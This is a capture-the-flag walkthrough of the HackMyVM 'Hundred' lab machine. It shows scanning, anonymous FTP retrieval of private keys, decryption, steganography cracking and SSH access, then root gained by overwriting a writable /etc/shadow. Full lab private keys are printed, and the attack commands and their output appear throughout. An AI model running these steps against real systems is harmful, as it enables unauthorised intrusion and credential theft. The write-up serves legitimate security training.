 ```yaml
---
title: "Hundred by sml"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
header:
  overlay_image: /assets/images/pasek-hack.png
gallery1_1:
  - url: /assets/images/hacking/2021/11/01.png
    image_path: /assets/images/hacking/2021/11/01.png
  - url: /assets/images/hacking/2021/11/02.png
    image_path: /assets/images/hacking/2021/11/02.png  
---
```

# No comments, just walkthrough:
{% include gallery id="gallery1_1" %}
## 01. Metasploit and scan
<div class="notice--primary" markdown="1">
```bash
# msfconsole
msf6 > db_nmap -p- -A 172.16.1.108
```
```console
[*] Nmap: Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-23 19:24 CEST
[*] Nmap: Nmap scan report for hundred.lan (172.16.1.108)
[*] Nmap: Host is up (0.00038s latency).
[*] Nmap: Not shown: 65532 closed ports
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 21/tcp open  ftp     vsftpd 3.0.3
[*] Nmap: | ftp-anon: Anonymous FTP login allowed (FTP code 230)
[*] Nmap: | -rwxrwxrwx    1 0        0             435 Aug 02 06:19 id_rsa [NSE: writeable]
[*] Nmap: | -rwxrwxrwx    1 1000     1000         1679 Aug 02 06:11 id_rsa.pem [NSE: writeable]
[*] Nmap: | -rwxrwxrwx    1 1000     1000          451 Aug 02 06:11 id_rsa.pub [NSE: writeable]
[*] Nmap: |_-rwxrwxrwx    1 0        0             187 Aug 02 06:27 users.txt [NSE: writeable]
[*] Nmap: | ftp-syst:
[*] Nmap: |   STAT:
[*] Nmap: | FTP server status:
[*] Nmap: |      Connected to ::ffff:172.16.1.10
[*] Nmap: |      Logged in as ftp
[*] Nmap: |      TYPE: ASCII
[*] Nmap: |      No session bandwidth limit
[*] Nmap: |      Session timeout in seconds is 300
[*] Nmap: |      Control connection is plain text
[*] Nmap: |      Data connections will be plain text
[*] Nmap: |      At session startup, client count was 4
[*] Nmap: |      vsFTPd 3.0.3 - secure, fast, stable
[*] Nmap: |_End of status
[*] Nmap: 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   2048 ef:28:1f:2a:1a:56:49:9d:77:88:4f:c4:74:56:0f:5c (RSA)
[*] Nmap: |   256 1d:8d:a0:2e:e9:a3:2d:a1:4d:ec:07:41:75:ce:47:0e (ECDSA)
[*] Nmap: |_  256 06:80:3b:fc:c5:f7:7d:c5:58:26:83:c4:f7:7e:a3:d9 (ED25519)
[*] Nmap: 80/tcp open  http    nginx 1.14.2
[*] Nmap: |_http-server-header: nginx/1.14.2
[*] Nmap: |_http-title: Site doesn't have a title (text/html).
[*] Nmap: MAC Address: 92:25:CA:13:80:8A (Unknown)
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 4.X|5.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
[*] Nmap: OS details: Linux 4.15 - 5.6
[*] Nmap: Network Distance: 1 hop
[*] Nmap: Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.38 ms hundred.lan (172.16.1.108)
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 10.16 seconds
```
</div>
<div class="notice--primary" markdown="1">
```bash
services
```
```console
msf6 > services
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.108  21    tcp    ftp   open   vsftpd 3.0.3
172.16.1.108  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
172.16.1.108  80    tcp    http  open   nginx 1.14.2
```
</div>
## 02. Ftp 
<div class="notice--primary" markdown="1">
```console
msf6 auxiliary(scanner/ftp/anonymous) > run -j
[*] Auxiliary module running as background job 1.
msf6 auxiliary(scanner/ftp/anonymous) >
[+] 172.16.1.108:21       - 172.16.1.108:21 - Anonymous READ (220 (vsFTPd 3.0.3))
[*] 172.16.1.108:21       - Scanned 1 of 1 hosts (100% complete)

msf6 auxiliary(scanner/ftp/anonymous) >
msf6 auxiliary(scanner/ftp/anonymous) > exit
```
</div>
<div class="notice--primary" markdown="1">
```bash
ncftp
```
```console
NcFTP 3.2.5 (Feb 02, 2011) by Mike Gleason (http://www.NcFTP.com/contact/).
ncftp> open -a 172.16.1.108
Connecting to 172.16.1.108...
(vsFTPd 3.0.3)
Logging in...
Login successful.
Logged in to 172.16.1.108.
ncftp / > ls -la
drwxr-xr-x    2 0        113          4096 Aug 02 06:27 .
drwxr-xr-x    2 0        113          4096 Aug 02 06:27 ..
-rwxrwxrwx    1 0        0             435 Aug 02 06:19 id_rsa
-rwxrwxrwx    1 1000     1000         1679 Aug 02 06:11 id_rsa.pem
-rwxrwxrwx    1 1000     1000          451 Aug 02 06:11 id_rsa.pub
-rwxrwxrwx    1 0        0             187 Aug 02 06:27 users.txt
ncftp / > mget *
id_rsa:                                                435.00 B  800.01 kB/s
c:                                              1.64 kB    3.91 MB/s
id_rsa.pub:                                            451.00 B    1.06 MB/s
users.txt:                                             187.00 B  280.52 kB/s
ncftp / > exit
```
</div>
<div class="notice--primary" markdown="1">
```bash
cat id_rsa
```
```console
  / \
    / _ \
   | / \ |
   ||   || _______
   ||   || |\     \
   ||   || ||\     \
   ||   || || \    |
   ||   || ||  \__/
   ||   || ||   ||
    \\_/ \_/ \_//
   /   _     _   \
  /               \
  |    O     O    |
  |   \  ___  /   |
 /     \ \_/ /     \
/  -----  |  --\    \
|     \__/|\__/ \   |
\       |_|_|       /
 \_____       _____/
       \     /
       |     |
-------------------------
```
```bash
 cat id_rsa.pem
```console
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwsrHORyA+mG6HS9ZmZwzPmKHrHhA0/kKCwNjUG8rmPVupv73
mUsewpoGvYB9L9I7pUAsMscAb5MVo89d4b0z2RnXDD1fh6mKlTJmcNwWCnA1PgD+
OwqewshpkCBhCV6O2P6dktfA8UI/uqF6uT4QISU4ksriN16cOm/89jHadetB8dCe
h3Rx6HrFNccY8aiDRSA9meqz7YGE2+lJ/NtwtndUkzzxKxuKC6z4gG780tZHhg83
xVwZ9bxPyHfGqHWmV4yGsAgp7mot7pg9VzffnP6DAVnbReDDbhNLcnfVXEkBv8SQ
L7OFIiKxJpoa1ADqGffA5LOPFdYKbbCFMictQQIDAQABAoIBAE4Q6IDp/ILcEbPK
mzUl1Z+l60visdCCGVVKmU3OEAHwMtV4j5B++6fwBM2Dpig5MDBNJKmA+Zq9rsmE
vNJQemwCoB3Gpvd+qgybM1T9z1OFnsDnsvvEiNX1beEWKO2RWNx8RnhoQWovK81H
FCETT3GJMkAaUUjxgNkmspGUb0IcP4YR61jpNy8thMLz8FQV8XqNSf4DSd9+8wrm
FBFDFzso6zcBtsY6/nDueaVfLsequU1Fdhh3itC6rPXync/EWN0HJtaiKEVAytYE
cvl1hVpRVhGZGjPqNQSPcknO0K2b22anRoiSpBoCzaopbSZHySFgcZM8oxGgw35j
YpS1ULUCgYEA+1Se5s4AzsOX/3RRwwF9Was//oHU1N2JnJRetF9tjeFu8MEMnSec
a3bcPy+CZHB8oVnoyh647IObzPUjCgMxdyTLdfGmQ8RgzXhwYeQRe+ethrT/Ra26
7m+R+3838k5ZTKnwjBPreV/i2AmwZYDPT2S5q5b7m5Cr4QTfsaScaKsCgYEAxmk/
xzu2XO8YmE+8R62nWdLPMaj4E5IPkT3uCA8G24KGSSyK29OGZ02RI8qxWkdqMxKJ
rTDrQJ/4oU6108Vhay0tyFswbNn0ymlHAhPKxXNr0xHkC6rCnDEnn6W7bspTxxyk
9OUtl2UemtnEKRm3qu9Rc1qLFW0/Zhxw3ovgWcMCgYEAka6HPPoD9dXicSyXiBWA
900QlxHisFCJx70o+ByogClACUWdbirbvF71Y5rCVj3twAlBqocMYewXj0I4wUEA
lzM4zHD6EyXthqxdWCC/EbdFGmQn49fEFxmM4N7pKwbHNGz9BfU19PDjqJ5VJUD4
6ehUx2WJCq9dMd2FXI8yKmkCgYAMBBnBtiMQM8a4irOrX5/v961mo4YKoWDh+e8t
e8N9jcUWL2VldMUCApeUpFTjU8nht/CwlXLZ4hZLppmqbpy8weqw5JzlKroBfCi5
vnscRCY2jTHTZw8MKInuyDm2tvgl6d0vm6WMMqqM1D1mA9G0v3OeWdBshsY9J+HK
CIyYwwKBgQDEXoZ+lZKyPUBSgcE+b52U2Dj9GAPKPUDZpsCbUebftZknOk/HelF1
wiWWDjni1ILVSfWIR4/nvosJPa+39WDv+dFt3bJdcUA3SL2acW3MGVPC6abZWwSo
izXrZm8h0ZSuXyU/uuT3BCJt77HyN2cPZrqccPwanS9du6zrX0u2yQ==
-----END RSA PRIVATE KEY-----
```bash
cat users.txt
```
```console
--- SNIP ---
noname
roelvb
ch4rm
marcioapm
isen
sys7em
chicko
tasiyanci
luken
alienum
linked
tatayoyo
0xr0n1n
exploiter
kanek180
cromiphi
softyhack
b4el7d
val1d
--- SNIP ---

Thanks!
hmv
```
</div>
## 03. http://172.16.1.108/
<div class="notice--primary" markdown="1">
view-source:http://172.16.1.108/
```
<style>
.center {
  display: block;
  margin-left: auto;
  margin-right: auto;
  key: h4ckb1tu5.enc;
  width: 50%;
}
</style>

<img src="logo.jpg" class="center"> 
<h1>Thank you ALL!</h1>
<h1>100 f*cking VMs!!</h1>

<!-- l4nr3n, nice dir.-->
```
</div>
<div class="notice--primary" markdown="1">
```bash
curl -O "http://172.16.1.108/{h4ckb1tu5.enc,logo.jpg}"
```
```console
[1/2]: http://172.16.1.108/h4ckb1tu5.enc --> h4ckb1tu5.enc
--_curl_--http://172.16.1.108/h4ckb1tu5.enc
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   256  100   256    0     0   250k      0 --:--:-- --:--:-- --:--:--  250k

[2/2]: http://172.16.1.108/logo.jpg --> logo.jpg
--_curl_--http://172.16.1.108/logo.jpg
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7277  100  7277    0     0  7106k      0 --:--:-- --:--:-- --:--:-- 7106k
```
</div>
## 04. Decrypt
<div class="notice--primary" markdown="1">
```bash
openssl rsautl -decrypt -inkey id_rsa.pem -in h4ckb1tu5.enc
```
```console
/softyhackb4el7dshelldredd
```
</div>
## 05. File search
<div class="notice--primary" markdown="1">
http://172.16.1.108/softyhackb4el7dshelldredd
```
Hi boss. Is there --> ... 
```
</div>
<div class="notice--primary" markdown="1">
```bash
dirsearch -r -u http://172.16.1.108/softyhackb4el7dshelldredd -w /usr/share/seclists/Discovery/Web-Content/common.txt -f -e txt,php,html,htm,zip
```
```console
Target: http://172.16.1.108/softyhackb4el7dshelldredd/

[22:53:44] Starting:
[22:54:08] 200 -    2KB - /softyhackb4el7dshelldredd/id_rsa
[22:54:08] 200 -   26B  - /softyhackb4el7dshelldredd/index.html

Task Completed
```
</div>
## 06. Download & decrypt
```bash
wget http://172.16.1.108/softyhackb4el7dshelldredd/id_rsa && cat id_rsa
```
```console
--2021-09-23 23:02:01--  http://172.16.1.108/softyhackb4el7dshelldredd/id_rsa
Connecting to 172.16.1.108:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1876 (1.8K) [application/octet-stream]
Saving to: ‘id_rsa’

id_rsa                        100%[==============================================>]   1.83K  --.-KB/s    in 0s

2021-09-23 23:02:01 (170 MB/s) - ‘id_rsa’ saved [1876/1876]

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABC1tMw32e
lFi/dbgCqdqW6TAAAAEAAAAAEAAAEXAAAAB3NzaC1yc2EAAAADAQABAAABAQDTAhcp/5nw
lsy+3EWvxJUZ5ok0krnLNSETXK915aZ1G/r9DEYI00+A03XALv36P8/RMJMTb6O99TMumL
sB18Al014yCEK+zhp0aIMeuIlqlhD0thxXINPGzLewoTZKSctZIRFeO9lNaxqLi4dVDgyB
PwglvDzZldRYxTd6+/RpP+5dPggjoj4ZC5kln+SkD2+EPveTuJQAs/wLaeHgBDVuKUOHD/
FA/Vctw1ZXYzYIL+vkGL8cMjiIlscCE4Ze+3QzHs9otOqPczDoZ5v1IAl0vJ7lKaLR27ov
WnCOQdoS9BVojlEOtOzlyX1V9M1pkePhmzSTaIDMBXuLcYmaKa8LAAAD0AHQ1cvNEthcr2
m8I3a3Mt7Sr0Dfb2Lg7aypmPEgrS5dIGK+t6lReNEUU4KPCXy2RzRs8nKm/fbRxteuTeR6
O/nICGj67XlZl2wHyn5+W/5j8ndxB79t1f5UZWQuzKLwhOe8qEnnyL7sn8EXCjpU3SBcXO
oTiBDNmwZk+L0nQWz/IsCLNXbqgxuYBnRsKd85b5Xgs2uylyTx2qaRq1s6mMV2UMJEmj6U
7rBFbrKcBOrmRSx7p8Pr2rWtUhb8P3p4DL8Z6cVmeruS/Xa85B920t3eK7vNGqA8AH8zKG
xNk8eAkRoSicAnheYJsU5YSAS+AYSOJcA/91xSjqhaFWJuZo9ktw6/L80NSBfUVJhnGtCf
2J1QTXbBxhQ7rGHRIXk/pSMfxsYikmNsnnGU7u/tQKZmlTY1HnOrf0r1EdB6aAzpR0uZxT
t7iPoOCK4/BvJURkG9b31vLKhZPOiUK6sN8N0OQzQxbzQCTRb7v1JfRG57H9wQsMNYZf9S
XWE2GIPl55ww9iECcyvHUWKvL67cWDX42wUQ9UQS37QsVKEPtTJa7rTGG9unqcqkMoq5g4
+uAOAJx7aFhOG48hCwIgqWxHSXQmitTiz36FCakkMwECm2lyjotCCmGoIScMlKxpzsmV4M
wqxWToINy2fGQ1Yem993ACu8zSnLIJ0XUugveeVJkxc0fpYcBEbPzeKs9pkGpk+BDt1dIs
+UEsnoGszQMy7D/xCBINrUW+vmgNVtJVLxtfmxJY/Lnrrf+wIKTPR0sBzdOPmDJFjkudjf
BCzUa1V+Uqlu1CODPxwJSV/9300IYiVjevGeRQwU2Ol8OFFb69a5sDkrtV0zqMNdgvJwT4
qXaW5unXngxkam+w3IY6CHiNW9XK8aLONo56+Bl+8stLB8p0IaT4RjgFO0jUY8fSkuo++g
pGBSACsYutFP4PhqIiIJzovMsTrq/5/OynGRriA0Fum/6seBXNZfBdgnQCH+9o5DJaJ0oS
VyfM9a6g7KM7dIkFRDC4FP/jonTBozaAMEZKVynLT0D5aKpkNmLcqXe4oUW4NJQatXN/ac
qh3a5x38Jkqh7I+CJyFnZpPChHMO8iQF9Vyz3+ABqzLiE2cfsDZoM3KPfz6bTo8uE7j3Eg
KqCn5ZgnewitQGYBVsetAVPwlwuHsKZp/jPr3b0SPZ1lf2elQvqfmj4sRNYhG4YaVGdPbU
hIPePtsxi0+XFAqfgm0h4PM9WdtOEafmPhMbPiP3ITbWCiYNKHXRwiDA56M0zebphDihii
x9NFZeQzcWz9zFQclVpVk1xYQxj48=
-----END OPENSSH PRIVATE KEY-----
```
</div>
<div class="notice--primary" markdown="1">
```bash
stegseek logo.jpg users.txt
```
```console
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "cromiphi"
[i] Original filename: "toyou.txt".
[i] Extracting to "logo.jpg.out"
```
</div>
<div class="notice--primary" markdown="1">
```bash
cat logo.jpg.out
```console
d4t4s3c#1
```
</div>
## 07. Shell
<div class="notice--primary" markdown="1">
```bash
ssh -i id_rsa hmv@172.16.1.108
```
```console
Enter passphrase for key 'id_rsa':
Linux hundred 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Sep 23 17:18:14 2021 from 172.16.1.10
hmv@hundred:~
```
</div>
### 08. Shell enumeration
<div class="notice--primary" markdown="1">
```bash
hmv@hundred:~$ wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" && chmod 700 lse.sh
```
```console
--2021-09-23 17:33:40--  https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [following]
--2021-09-23 17:33:41--  https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43570 (43K) [text/plain]
Saving to: ‘lse.sh’

lse.sh                        100%[==============================================>]  42.55K  --.-KB/s    in 0.005s

2021-09-23 17:33:41 (8.61 MB/s) - ‘lse.sh’ saved [43570/43570]
```
```bash
hmv@hundred:~$ ./lse.sh -l 1
```
```console
[!] fst140 Can we access other users mail?................................. nope
[*] fst150 Looking for GIT/SVN repositories................................ nope
[!] fst160 Can we write to critical files?................................. yes!
---
-rwxrwxrw- 1 root shadow 254 Sep 23 17:31 /etc/shadow
---
[!] fst170 Can we write to critical directories?........................... nope
[!] fst180 Can we write to directories from PATH defined in /etc?.......... nope
[!] fst190 Can we read any backup?......................................... nope
[!] fst200 Are there possible credentials in any shell history file?....... nope
```
</div>
## 09. Get Root
```bash
hmv@hundred:~$ openssl passwd 1234
eFUXRS/6X7lsU
hmv@hundred:~$ echo "root:eFUXRS/6X7lsU:18893:0:99999:7:::" > /etc/shadow
hmv@hundred:~$ su
Password:
root@hundred:/home/hmv# id
uid=0(root) gid=0(root) groups=0(root)
root@hundred:/home/hmv#
```
## 10. The end
Inspired by the [write-up](https://nepcodex.com/2021/09/hundred-writeup-hackmyvm-walkthrough/)
